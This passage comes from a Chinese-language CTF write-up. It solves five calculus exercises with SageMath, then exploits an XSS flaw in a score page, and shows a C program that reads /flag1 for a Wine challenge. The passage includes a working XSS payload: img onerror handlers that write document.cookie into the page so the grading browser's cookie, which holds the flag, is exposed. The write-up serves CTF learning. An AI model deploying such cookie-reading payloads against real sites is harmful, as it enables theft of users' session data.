 后续通过逆向并 Patch Program 得到 flag。 ~~不会 binary 题，调了好几个小时~~

## 微积分计算小练习

打开练习网站，发现有 5 道微积分计算题。 ~~那么就先把它们都做出来吧~~

代码使用 [SageMath](https://www.sagemath.org/)，题目要求四舍五入，保留一位小数，可以使用`round`函数。（不想做题可以跳过此部分）

```sage
from sage.symbolic.integration.integral import definite_integral    # 导入定积分函数
definite_integral(1/(x**2+1),x,0,1)                                 # 第一题
lim(sin(x)/x,x=0)                                                   # 第二题
definite_integral(e**(-2*x**2),x,-oo,oo)                            # 第三题
definite_integral(arcsin(1/10),x,0,1)                               # 第四题
derivative(cos(x)/sin(x),x)(x=114)                                  # 第五题
answers = [0.8, 1.0, 1.3, 0.1, -1.6]                                # 答案
```

成功获得了 100 分。

从微积分的世界返回到 CTF 的世界，调试网页并阅读后端源码发现：

- 成绩页面存在 XSS 漏洞。
- 成绩页面的姓名与分数在 URL param 的 result 中通过 base64 编码。（以及 URL Encode）
- 提交练习成绩的页面会使用 selenium 控制 Chrome，打开成绩页面处理成绩后输出。
- flag 在后端 Chrome 的 cookie 中。

构造 payload 如下：

```html
<img
  src="x"
  onerror="document.getElementById('greeting').innerText=document.cookie;"
/>:<img
  src="x"
  onerror="document.getElementById('score').innerText=document.cookie;"
/>
```

通过 base64 编码，URL Encode 后，修改 URL 并在提交练习成绩的页面提交，得到 flag。

## 杯窗鹅影

### flag1

写一个 C 程序，读取`/flag1`并输出。使用`x86_64-w64-mingw32-gcc`编译并上传。

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  FILE *fptr;
  char c;
  fptr = fopen("/flag1", "r");
  if (fptr == NULL) {
    printf("Cannot open file \n");
    exit(1);
  }
  c = fgetc(fptr);
  while (c != EOF) {
    printf("%c", c);
    c = fgetc(fptr);
  }
  fclose(fptr);
  return 0;
}
```
